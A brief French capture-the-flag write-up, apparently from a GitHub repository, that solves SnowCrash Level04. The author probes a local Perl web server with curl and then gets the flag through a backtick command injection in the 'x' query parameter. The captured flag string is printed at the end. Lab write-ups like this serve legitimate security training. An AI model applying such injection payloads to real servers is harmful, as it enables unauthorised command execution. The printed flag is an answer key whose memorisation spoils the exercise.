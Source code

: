 #+TITLE: SnowCrash -- Level04

* A partir des informations et de quelques recherches sur le net, on peut deduire que :
Un serveur web tourne sur le port 4747, et le fichier que nous avons devant nous correspond au code source de celui-ci
Nous allons simplement utiliser ce fichier pour mieux creer notre payload, mais celui-ci ne nous permattra pas directement d'obtenir le flag.
#+begin_src bash
curl -vvv localhost:4747
#+end_src
 la connection est reussie, le content est vide mais le type correspond bien a ce qui se trouve dans le fichier perl
* Il est temps d'ecrire le payload. *
 Je remarque que le serveur renvoie la valeur de x dans le content. exemple :
 #+begin_src bash
 curl -vvv localhost:4747?x=bonjour
 #+end_src
  renvoie bonjour avec une taille de contenu de 8
En tant que surhommes, nous connaissons bien le bash et ses defauts. L'injection de commande suivante est donc possible :
#+begin_src bash
curl -vvv localhost:4747'?x=`getflag`'
#+end_src
le flag se retrouve alors dans le contenu

* FLAG :
 ne2searoevaevoem4ov4ar8ap
